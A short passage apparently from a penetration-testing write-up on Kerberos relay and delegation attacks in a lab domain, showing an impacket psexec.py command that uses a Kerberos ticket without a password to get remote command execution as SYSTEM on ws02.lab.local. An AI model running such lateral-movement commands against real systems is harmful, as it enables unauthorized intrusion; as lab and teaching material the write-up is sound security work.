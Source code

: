 ![](../assets/img/relaydelegation/2019-04-14-15-16-28.png)

## Command execution

We can get interactive remote command execution using `psexec.py`. Note that we can only get command execution as the SYSTEM user with psexec and is it starts a service remotely as that user. 

    psexec.py -k ws02.lab.local -debug -no-pass
